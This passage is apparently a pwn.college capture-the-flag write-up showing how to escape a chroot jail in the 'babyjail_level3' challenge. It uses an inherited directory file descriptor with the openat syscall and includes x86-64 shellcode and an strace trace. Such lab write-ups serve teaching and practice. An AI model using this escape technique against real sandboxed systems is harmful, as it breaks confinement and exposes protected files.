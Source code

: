 * That means we cannot just `../../flag` our way to getting the flag.
* Fortunately, there is `openat` syscall in linux which takes as input a directory file descriptor and then the path of the file to be opened relative to the directory.

```c
int openat(int dirfd, const char pathname, int flags, mode_t mode);
```

* In our case, the `dirfd` will be `3`, the first three being STDIN, STDERR and STDOUT.
* The `openat` syscall would look something like this:

```armasm
# Openat syscall
mov rdi, 3
lea rsi, [rip + flag]
mov rdx, 0
mov r10, 0
mov rax, 0x101
syscall

flag:
.string "flag"
```

* Note that I specified `flag` and not `/flag` because that would reference the file inside `jail/`.
* The result of the `openat` syscall is a file descriptor.
* We can check it's value in the practice mode using `strace` which traces every system call.

```
~$ sudo strace /challenge/babyjail_level3 / < /home/hacker/shellcode.bin

; -- snip --
openat(3, "flag", O_RDONLY)             = 4
read(4, "pwn.college{practice}\n", 1000) = 22
; -- snip --
```

* This result is stored in `$rax` as is the case with most syscall that return a value.

```armasm
# Read syscall
mov rdi, rax
mov rsi, rsp
mov rdx, 1000
mov rax, 0x00
syscall
```

* We can pass this shellcode to the challenge.

```
~$ /challenge/babyjail_level3 / < /home/hacker/shellcode.bin
```

* Note that `/` is our `argv[1]`, which we are using as reference in `openat`.
* Since this directory is opened before `chroot()` is executed it won't be in the jail.
* Congratulations! We have escaped `chroot`.
